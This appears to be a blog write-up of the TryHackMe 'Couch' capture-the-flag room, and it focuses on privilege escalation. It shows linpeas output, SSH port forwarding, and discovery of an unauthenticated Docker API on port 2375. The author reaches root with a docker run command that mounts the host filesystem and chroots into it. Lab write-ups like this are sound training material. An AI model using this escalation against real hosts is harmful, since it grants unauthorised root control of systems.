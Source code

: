 ```yaml
---
layout: post
title:  "THM: Couch"
date:   2021-07-01 20:00:00 +1000
category: hacking
---
```


## THM: Couch
This is [Couch](https://tryhackme.com/room/couch) from THM. It's Easy: 

>Hack into a vulnerable database server that collects and stores data in JSON-based document formats, in this semi-guided challenge.

This will be brief, because I'm only interested in the privesc (which wasn't guided).

## Linpeas
We've SSH'd in as *atena* and I run linpeas; I don't get much but do notice:

{% highlight shell %}
[+] Active Ports
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-ports
tcp        0      0 0.0.0.0:22              0.0.0.0:*
tcp        0      0 127.0.0.1:46808         0.0.0.0:*               
tcp        0      0 0.0.0.0:5984            0.0.0.0:*               
tcp        0      0 127.0.0.1:2375          0.0.0.0:*               
tcp6       0      0 :::22                   :::*                    
{% endhighlight %}

I port forward 2375 with SSH:

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/couch]
└─# ssh -L 9999:localhost:2375 atena@10.10.128.105 
atena@10.10.128.105s password: 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-193-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Thu Jul  1 03:13:41 2021 from 10.9.10.123
atena@ubuntu:~$
{% endhighlight %}

And check in the broswer:

{% highlight html %}
HTTP/1.1 404 Not Found
Content-Type: application/json
Date: Thu, 01 Jul 2021 10:03:28 GMT
Content-Length: 29
Connection: close

{"message":"page not found"}
{% endhighlight %}

I run dirsearch:

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/couch]
└─# python3 /opt/dirsearch/dirsearch.py -u http://localhost:9999    

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10848

Error Log: /opt/dirsearch/logs/errors-21-07-01_06-03-49.log
Target: http://localhost:9999/
Output File: /opt/dirsearch/reports/localhost/_21-07-01_06-03-50.txt

[06:03:50] Starting: 
[06:03:54] 200 -    3B  - /plugins                                                         /Citrix/AccessPlatform/auth/clientscripts/cookies.js
[06:05:13] 503 -  144B  - /configs/conf_zepass.ini                                         [06:05:13] 503 -  144B  - /configs/conf_bdd.ini
[06:05:20] 200 -   31KB - /debug/pprof/goroutine?debug=1                          
[06:05:20] 200 -   27KB - /debug/pprof/trace         
[06:05:20] 200 -    8KB - /debug/pprof/heap      
[06:05:38] 200 -    2KB - /info                                                           [06:05:48] 503 -  144B  - /nodes                                                           [06:06:04] 503 -  144B  - /secrets                                                         [06:06:05] 503 -  144B  - /services                                         
[06:06:22] 200 -  537B  - /version  
{% endhighlight %}

And visiting /info gives a *lot* of information:

{% highlight html %}
HTTP/1.1 200 OK
Api-Version: 1.39
Content-Type: application/json
Docker-Experimental: false
Ostype: linux
Server: Docker/18.09.7 (linux)
Date: Thu, 01 Jul 2021 10:06:55 GMT
Connection: close
Content-Length: 2454

{
	"ID": "Y6WE:HXC4:FJQH:37S4:AW62:VZXN:P33O:CCAZ:KAIN:74CM:QJXR:PKEE",
	"Containers": 0,
	"ContainersRunning": 0,
	"ContainersPaused": 0,
	"ContainersStopped": 0,
	"Images": 1,
	"Driver": "overlay2",
	"DriverStatus": [
		[
			"Backing Filesystem",
			"extfs"
		],
		[
			"Supports d_type",
			"true"
		],
		[
			"Native Overlay Diff",
			"true"
		]
	],
	"SystemStatus": null,
	"Plugins": {
		"Volume": [
			"local"
		],
		"Network": [
			"bridge",
			"host",
			"macvlan",
			"null",
			"overlay"
		],
		"Authorization": null,
		"Log": [
			"awslogs",
			"fluentd",
			"gcplogs",
			"gelf",
			"journald",
			"json-file",
			"local",
			"logentries",
			"splunk",
			"syslog"
		]
	},
	"MemoryLimit": true,
	"SwapLimit": false,
	"KernelMemory": true,
	"CpuCfsPeriod": true,
	"CpuCfsQuota": true,
	"CPUShares": true,
	"CPUSet": true,
	"IPv4Forwarding": true,
	"BridgeNfIptables": true,
	"BridgeNfIp6tables": true,
	"Debug": false,
	"NFd": 22,
	"OomKillDisable": true,
	"NGoroutines": 38,
	"SystemTime": "2021-07-01T03:06:54.855591862-07:00",
	"LoggingDriver": "json-file",
	"CgroupDriver": "cgroupfs",
	"NEventsListener": 0,
	"KernelVersion": "4.4.0-193-generic",
	"OperatingSystem": "Ubuntu 16.04.7 LTS",
	"OSType": "linux",
	"Architecture": "x86_64",
	"IndexServerAddress": "https://index.docker.io/v1/",
	"RegistryConfig": {
		"AllowNondistributableArtifactsCIDRs": [],
		"AllowNondistributableArtifactsHostnames": [],
		"InsecureRegistryCIDRs": [
			"127.0.0.0/8"
		],
		"IndexConfigs": {
			"docker.io": {
				"Name": "docker.io",
				"Mirrors": [],
				"Secure": true,
				"Official": true
			}
		},
		"Mirrors": []
	},
	"NCPU": 1,
	"MemTotal": 510328832,
	"GenericResources": null,
	"DockerRootDir": "/var/lib/docker",
	"HttpProxy": "",
	"HttpsProxy": "",
	"NoProxy": "",
	"Name": "ubuntu",
	"Labels": [],
	"ExperimentalBuild": false,
	"ServerVersion": "18.09.7",
	"ClusterStore": "",
	"ClusterAdvertise": "",
	"Runtimes": {
		"runc": {
			"path": "runc"
		}
	},
	"DefaultRuntime": "runc",
	"Swarm": {
		"NodeID": "",
		"NodeAddr": "",
		"LocalNodeState": "inactive",
		"ControlAvailable": false,
		"Error": "",
		"RemoteManagers": null
	},
	"LiveRestoreEnabled": false,
	"Isolation": "",
	"InitBinary": "docker-init",
	"ContainerdCommit": {
		"ID": "",
		"Expected": ""
	},
	"RuncCommit": {
		"ID": "N/A",
		"Expected": "N/A"
	},
	"InitCommit": {
		"ID": "v0.18.0",
		"Expected": "fec3683b971d9c3ef73f284f176672c44b448662"
	},
	"SecurityOptions": [
		"name=apparmor",
		"name=seccomp,profile=default"
	],
	"Warnings": [
		"WARNING: API is accessible on http://127.0.0.1:2375 without encryption.\n         Access to the remote API is equivalent to root access on the host. Refer\n         to the 'Docker daemon attack surface' section in the documentation for\n         more information: https://docs.docker.com/engine/security/security/#docker-daemon-attack-surface",
		"WARNING: No swap limit support"
	]
{% endhighlight %}

The real takeaway is that last bit though:

>WARNING: API is accessible on http://127.0.0.1:2375 without encryption

So. What can we do? First, I install the docker CLI in kali:

```
apt install docker.io
```

Then we can list the images:

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/couch]
└─# docker -H localhost:9999 images
REPOSITORY   TAG       IMAGE ID       CREATED        SIZE
alpine       latest    389fef711851   6 months ago   5.58MB
{% endhighlight %}

And then we can get root:

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/couch]
└─# docker -H localhost:9999 run -it -v /:/host alpine chroot /host/ bash
groups: cannot find name for group ID 11
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@d4ecebedfc38:/# id;hostname;date
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
d4ecebedfc38
Thu Jul  1 03:45:16 PDT 2021
root@d4ecebedfc38:/# cd /root
root@d4ecebedfc38:~# ls
root.txt
root@d4ecebedfc38:~# cat root.txt
THM{RCE_us1ng_Docker_API}
root@d4ecebedfc38:~#
{% endhighlight %}

Neato completo.
